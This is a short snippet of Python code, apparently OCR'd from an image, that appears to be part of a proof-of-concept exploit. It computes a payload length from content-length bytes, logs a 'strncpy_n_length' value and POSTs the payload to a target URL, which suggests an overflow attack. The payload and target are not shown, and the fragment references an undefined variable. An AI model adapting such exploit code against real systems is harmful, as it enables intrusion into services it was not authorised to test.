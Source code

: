 ```python
payload_length = ord(content_length_part2) + 2 * ord(content_length_part1) # 0x2fd

log.info("package_length: "+hex(n))
log.info("strncpy_n_length: "+hex(payload_length))
log.info("payload_length: "+str(len(payload)))
rq.post(request_url,headers = headers ,data=payload)
```

